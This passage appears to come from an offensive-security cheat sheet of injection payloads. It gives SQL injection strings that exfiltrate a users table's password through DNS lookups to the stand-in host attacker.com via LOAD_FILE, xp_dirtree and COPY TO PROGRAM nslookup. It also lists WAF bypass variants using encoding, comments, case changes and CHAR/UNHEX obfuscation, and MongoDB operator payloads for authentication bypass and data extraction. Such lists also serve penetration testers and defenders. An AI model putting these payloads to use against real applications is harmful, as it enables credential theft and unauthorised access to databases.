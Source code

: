**DNS Exfiltration Techniques:**
```sql
-- DNS exfiltration (MySQL)
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users WHERE id=1), '.attacker.com\\test.txt')) --

-- DNS exfiltration (MSSQL)
'; EXEC master.dbo.xp_dirtree '\\' + (SELECT password FROM users WHERE id=1) + '.attacker.com\test' --

-- DNS exfiltration (PostgreSQL)
'; COPY (SELECT password FROM users WHERE id=1) TO PROGRAM 'nslookup ' || (SELECT password FROM users WHERE id=1) || '.attacker.com' --
```

**Advanced Filter Bypass Techniques:**
```sql
-- WAF bypass using encoding
%27%20UNION%20SELECT%20null%2Cnull%2Cnull--
%2527%2520UNION%2520SELECT%2520null%252Cnull%252Cnull--

-- Comment-based bypass
/*!50000UNION*/ /*!50000SELECT*/ null,null,null--
/*! UNION */ /*! SELECT */ null,null,null--

-- Case variation bypass
UnIoN SeLeCt null,null,null--
union/**/select/**/null,null,null--

-- Alternative operators
' || (SELECT password FROM users WHERE id=1) || '
' + (SELECT password FROM users WHERE id=1) + '
' CONCAT((SELECT password FROM users WHERE id=1)) '

-- Using functions to obfuscate
CHAR(85,78,73,79,78)  -- Spells "UNION"
UNHEX('554E494F4E')    -- Spells "UNION"
```

#### **NoSQL Injection Techniques**

**MongoDB Injection:**
```javascript
// Authentication bypass
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}

// Information extraction
{"username": {"$regex": "^admin"}, "password": {"$ne": null}}
{"username": {"$regex": "^a"}, "password": {"$ne": null}}

// JavaScript injection
{"username": "admin", "password": {"$where": "return true"}}
{"username": "admin", "password": {"$where": "this.username == 'admin'"}}
```
